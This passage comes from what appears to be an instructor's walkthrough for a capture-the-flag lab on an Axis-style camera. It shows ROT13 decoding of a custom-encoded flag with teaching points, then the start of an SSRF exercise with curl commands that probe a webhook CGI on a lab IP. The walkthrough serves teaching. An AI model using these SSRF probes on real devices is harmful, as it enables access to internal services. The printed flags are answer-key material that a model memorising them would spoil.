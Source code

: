 ```bash
        result += c
print('Original:', data)
print('Decoded:', result)"
```

**Output:**
```
Original: KFNL%KNWFRNW+,(**(-,
Decoded: KFNL{KNWFRNW46311176
```

```bash
# Apply ROT13 to letters
echo "KFNL{KNWFRNW46311176" | tr 'N-ZA-Mn-za-m' 'A-Za-z'
```

**Output:**
```
FLAG{FARAMIR46311176}
```

**Teaching Points:**
- Custom "encryption" schemes are usually weak
- Substitution ciphers provide no real security
- Multiple encoding layers don't equal encryption

**Common Student Mistakes:**
- Assuming it's real encryption needing tools
- Not recognizing character substitution patterns
- Missing the two-step decoding process

---

### Flag #23: SSRF via Webhook
**Location**: Internal service access  
**Flag**: `FLAG{ELENDIL66222658}`

```bash
# Discover webhook endpoint
curl http://192.168.1.132/axis-cgi/webhook.cgi
```

**Output:**
```
Error: Missing required parameter 'url'
Usage: webhook.cgi?url=<webhook_url>
```

```bash
# Try external URL
curl "http://192.168.1.132/axis-cgi/webhook.cgi?url=http://example.com"
```

**Output:**
```
Webhook called successfully
Response: <!doctype html><html><head><title>Example Domain</title>...
```

